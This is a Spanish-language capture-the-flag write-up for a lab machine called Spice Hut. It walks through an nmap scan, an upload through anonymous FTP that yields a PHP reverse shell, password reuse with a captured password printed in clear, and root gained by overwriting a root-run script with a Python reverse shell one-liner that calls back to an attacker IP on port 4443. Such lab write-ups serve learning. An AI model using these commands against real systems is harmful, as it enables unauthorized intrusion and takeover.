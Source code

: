 # Descripción

Somos Spice Hut, una nueva empresa emergente que acaba de triunfar. Nosotros
ofrecemos una variedad de especias y sándwiches club (por si te entra hambre),
pero no es por eso por lo que estás aquí. A decir verdad, no estamos seguros de si nuestros
desarrolladores saben lo que están haciendo y nuestras preocupaciones de seguridad están 
en aumento. Le pedimos que realice una prueba de penetración a fondo y tratar de 
poseer la raíz. Buena suerte.

# Reconocimiento

`nmap --min-rate 4000 -p- --open -sCV -v 10.10.115.93 -oN tcp_scan.txt`

 ![[Pasted image 20240412072219.png]]
 
Podemos ver el servicio FTP, con el usuario Anonymous habilitado con permisos de escritura dentro de la carpeta ftp, el servicio ssh, y un servidor apache corriendo en el puerto 80

Intentaremos ver que hay dentro del servidor ftp, y encontramos 2 archivos, y una carpeta llamada ftp, descargaremos los archivos notice.txt, y important.jpg para ver su contenido.

![[Pasted image 20240412082644.png]]
![[Pasted image 20240412082725.png]]

Pensando que esta corriendo un servidor web, podríamos ver si estos subdirectorios existen a nivel web, y si fuera el caso podríamos subir una reverse shell, mediante la carpeta ftp, he intentado directamente sobre la raíz y no he podido así que he hecho fuzzing, y obtuve la carpeta files donde se almacena lo que tiene el servidor ftp

![[Pasted image 20240412073926.png]]

![[Pasted image 20240412073942.png]]

Podemos ver que es el mismo archivo que descargamos en nuestra maquina dentro del ftp.

# Acceso inicial

Crearemos una revshell en php, en mi caso he usado revshells[].com, pero cualquier rev php, funcionaria, le damos permisos, y lo subimos al ftp, para ver si poniendolos a la escucha y ejecutando el archivo logramos una shell inversa 

![[Pasted image 20240412074604.png]]
![[Pasted image 20240412074623.png]]

Podemos listar dentro de la raiz /files/ftp/revshell.php nuestra shell inversa, poniendo netcat a la escucha, y efectivamente conseguimos una shell para el usuario www-data 

![[Pasted image 20240412074903.png]]

Podemos enumerar un usuario llamado lennie, listemos los permisos SUID que tiene el usuario www-data, para poder escalar privilegios, intentamos ver, pero no encontramos nada en las conexiones a la escucha o archivos en los que tengamos permisos
![[Pasted image 20240412083227.png]]
Dentro de la carpeta raiz encontramos una carpeta llamada incidentes con las contraseñas captadas de una comuncicación de ncap

![[1_VdH_oe1-qVobhaIbvnIQbQ.webp]]

usuario: www-data
contraseña: c4ntg3t3n0ughsp1c3

Sin poder escalar privilegios verificaremos si se ha reutilizar contraseñas, he intentado fuerza bruta cntra lennie pero no he podido, pero utilizando la contraseña c4ntg3t3n0ughsp1c3, tenemos acceso a lennie

![[Pasted image 20240412083730.png]]
![[Pasted image 20240412084053.png]]

# Escalada de privilegios

Dentro de la carpeta de la primera bandera, podemos encontrar dos carpetas, documents y scripts, dentro de scripts podemos ver un script en bash, que fue creado por el root, y tenemos  ejecución en la ruta /etc/print.sh

![[Pasted image 20240412084338.png]]

cat > /etc/print.sh << EOF 
#!/bin/bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.255.131",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
EOF
![[Pasted image 20240412085714.png]]
![[Pasted image 20240412085733.png]]

rescribimos el script con un revshell en python apuntando a nuestro puerto 4443 y tenemos el usuario root

![[Pasted image 20240412085830.png]]
